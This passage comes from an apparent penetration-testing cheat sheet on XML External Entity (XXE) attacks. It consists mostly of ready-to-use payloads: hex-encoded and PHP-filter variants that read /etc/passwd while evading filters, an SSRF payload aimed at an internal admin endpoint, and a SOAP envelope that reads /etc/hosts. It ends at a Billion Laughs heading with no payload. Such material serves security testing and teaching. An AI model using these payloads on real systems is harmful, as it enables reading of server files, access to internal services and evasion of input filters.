 ### Hexadecimal Encoding

Hexadecimal encoding of characters in file paths may bypass filters looking for typical keywords.

```xml
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file://%65%74%63%2F%70%61%73%73%77%64">]>
<root>&xxe;</root>
```

### Base64 Encoding via PHP Filters

If PHP is handling the XML, this payload uses PHP’s `php://filter` to encode output in Base64, potentially bypassing file content filters.

```xml
<!DOCTYPE root [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>
<root>&xxe;</root>
```

---

## Advanced XXE Techniques

### SSRF via XXE

Using XXE to trigger server-side requests to internal network resources can help perform SSRF (Server-Side Request Forgery).

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://internal.service.local/admin">]>
<root>&xxe;</root>
```

### Injecting XML into SOAP Requests

SOAP APIs can be tested by injecting XXE payloads directly into SOAP envelopes.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/hosts">
]>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header/>
  <soapenv:Body>
    <xxe>&xxe;</xxe>
  </soapenv:Body>
</soapenv:Envelope>
```

### Recursive Entity Expansion (Billion Laughs Attack)

This attack can lead to Denial of Service by expanding entities recursively.
